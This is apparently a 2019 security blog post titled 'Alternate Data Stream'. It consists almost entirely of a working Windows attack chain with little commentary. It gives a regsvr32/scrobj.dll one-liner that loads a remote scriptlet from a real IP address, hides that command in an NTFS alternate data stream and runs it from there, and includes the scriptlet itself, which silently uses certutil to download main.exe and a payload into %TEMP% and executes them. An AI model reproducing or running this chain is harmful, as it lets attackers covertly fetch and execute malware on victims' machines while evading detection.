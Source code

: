 ```yaml
---
author: XhstormR
categories:
- security
date: 2019-09-30T19:31:07+08:00
title: Alternate Data Stream
---
```


<!--more-->

Updated on 2019-09-30

```bash
regsvr32.exe /s /u /i:http://47.98.135.65/main/main.xml scrobj.dll
```

```bash
cmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:http://47.98.135.65/main/main.xml ^scrobj.dll > ...:payload.bat

cmd.exe - < ...:payload.bat
```

## main.xml
```xml
<?xml version="1.0" encoding="UTF-8"?>
<scriptlet>
<registration classid="{F0001111-0000-0000-0000-0000FEEDACDC}" >
<script language="VBScript">
    <![CDATA[
        CreateObject("WScript.Shell").Run _
            "C:\Windows\System32\cmd.exe /c cd /d %TEMP% && " &_
            "certutil.exe -urlcache -split -f http://47.98.135.65/main/main.exe && " &_
            "certutil.exe -urlcache -split -f http://47.98.135.65/main/payload.txt && " &_
            "main.exe", 0, false
    ]]>
</script>
</registration>
</scriptlet>
```

## delete.bat
```bash
del /f /a /q \\?\%1
rd /s /q \\?\%1
```

## Reference
* https://ss64.com/vb/shell.html
* https://attack.mitre.org/techniques/T1117/
* https://docs.microsoft.com/zh-cn/dotnet/visual-basic/programming-guide/program-structure/how-to-break-and-combine-statements-in-code
